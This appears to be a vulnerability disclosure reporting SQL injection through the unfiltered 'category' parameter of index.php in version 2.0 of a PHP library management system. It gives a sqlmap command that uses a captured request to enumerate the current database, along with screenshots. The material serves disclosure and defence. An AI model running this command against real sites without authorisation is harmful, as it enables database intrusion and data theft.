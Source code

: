 **Title:** Library Management System In PHP With Source Code (Ver.2.0) index.php sql Injection 

**Vendor:** Fabian Ros [Library Management System In PHP With Source Code (Ver.2.0) - Source Code & Projects](https://code-projects.org/library-management-system-in-php-with-source-code-ver-2-0/)

**Impact Escalation of Privileges:** true

**Affected Product Version**: 2.0

**Vulnerability Type**: SQL Injection

**Audit:**

/index.php

The `category` parameter is is injected into the query unfiltered.

![image-20250702145804985](./images/image-20250702145804985.png)

![image-20250702145749617](./images/image-20250702145749617.png)



**Verify**

1. Prepare request txt `b.txt`

   ![image-20250702150833397](./images/image-20250702150833397.png)

2. sqlmap exploit

```shell
sqlmap -r b.txt -p category  --batch --current-db --flush-session
```

![image-20250702150306018](./images/image-20250702150306018.png)



![image-20250702151202285](./images/image-20250702151202285.png)